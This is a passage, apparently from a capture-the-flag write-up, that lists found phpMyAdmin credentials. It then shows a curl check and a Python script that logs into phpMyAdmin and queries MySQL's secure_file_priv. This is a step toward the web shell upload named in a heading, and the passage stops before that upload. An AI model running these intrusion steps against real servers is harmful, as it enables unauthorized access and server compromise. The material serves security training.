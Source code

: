 **Credentials Found:**
- **Username**: `pma_admin`
- **Password**: `SecurinetsPMA!2025`
- **Database**: `shop`

---

## phpMyAdmin Access & Web Shell Upload

### Confirming phpMyAdmin Existence

```bash
curl -s -I "http://172.19.4.10/phpmyadmin/" | head -10
```

**Output:**
```
HTTP/1.1 200 OK
Date: Sun, 26 Oct 2025 02:05:20 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: phpMyAdmin=im3fhaodjcbl3fe0a92bnb27hs; path=/phpmyadmin/; HttpOnly
```

✅ **phpMyAdmin is accessible!**

### Checking MySQL File Privileges

Create a Python script to interact with phpMyAdmin:

```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup

url = "http://172.19.4.10/phpmyadmin/"
session = requests.Session()

# Get login page and extract token
resp = session.get(url)
soup = BeautifulSoup(resp.text, 'html.parser')
token = soup.find('input', {'name': 'token'}).get('value')

# Login
login_data = {
    'pma_username': 'pma_admin',
    'pma_password': 'SecurinetsPMA!2025',
    'server': '1',
    'target': 'index.php',
    'token': token
}
resp = session.post(url + 'index.php', data=login_data)

# Get new token for SQL queries
resp = session.get(url + 'index.php?route=/sql')
soup = BeautifulSoup(resp.text, 'html.parser')
token = soup.find('input', {'name': 'token'}).get('value')

# Check secure_file_priv setting
sql_url = url + 'index.php?route=/sql'
query = "SHOW VARIABLES LIKE 'secure_file_priv';"
sql_data = {'db': '', 'sql_query': query, 'token': token}
resp = session.post(sql_url, data=sql_data)
```
